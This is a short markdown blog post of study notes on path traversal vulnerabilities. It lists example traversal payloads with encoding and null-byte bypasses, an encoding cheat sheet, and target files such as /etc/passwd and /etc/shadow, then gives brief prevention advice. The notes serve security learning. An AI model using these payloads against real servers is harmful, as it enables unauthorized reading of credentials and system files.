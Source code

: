 ```yaml
---
title: Path Traversal
published: 2025-05-15
description: 'Notes about path traversal vulnerability'
image: "guide/tanjiro.jpg"
tags: [path-traversal, web-vulns]
category: 'WebSec'
draft: false 
---
```


`Path traversal`, also known as `directory traversal`, is a vulnerability that allows an attacker to read arbitrary files on the server where the application is hosted. Reading can include:

```markdown
- Application data and code
- Credentials of back-end systems
- Sensitive operating system files
```

In some cases the attacker may also be able to write arbitrary files to the server.

### Where to look?
Every time a resource or file is included by the application, there is a risk that an attacker could include a remote file or resource in an unauthorized way.

### Examples

```markdown
https://insecure-vulnerable-website.com/loadFile?filename=

Simple case:
    ?filename=../../../etc/passwd

Absolute path:
    ?filename=/etc/passwd

Nested traversal sequences:
    ?filename=....//....//....//etc/passwd

Url encoding:
    ?filename=..%2f..%2f..%2fetc/passwd

Double URL encoding:
    ?filename=..%252f..%252f..%252fetc/passwd

Base folder followed by traversal sequences:
    ?filename=/var/www/images/../../../etc/passwd

Null byte bypass:
    ?filename=../../../etc/passwd%00.png
```

### Encoding, double encoding and percent encoding
:::note[Tips]
Diff types to encode
:::

```
%2e%2e%2f -> ../
%2e%2e/ -> ../
..%2f -> ../
%2e%2e%5c -> ..\
%2e%2e\ -> ..\
..%5c -> ..\
%252e%252e%255c -> ..\
..%255c -> ..\

..%c0%af -> ../
..%c1%9c -> ..\

%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

### Files to read
Linux Files:

- /etc/passwd
- /etc/hosts
- /etc/shadow

Windows Files:

- C:/boot.ini
- C:/Windows/win.ini
- C:/WINNT/win.ini


### How to prevent PATH TRAVERSAL
The most effective way to prevent path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way. 

### Youtube

<iframe width="100%" height="468" src="https://www.youtube.com/embed/99yJtmmtrJU" title="Directory Traversal Attacks Made Easy" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### Resources

[OWASP](https://owasp.org/www-community/attacks/Path_Traversal)
[Web Academy](https://portswigger.net/web-security/file-path-traversal#what-is-path-traversal)
[caon.io 🐐](https://caon.io/exploitation/vulnerability/pathtransversal/)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)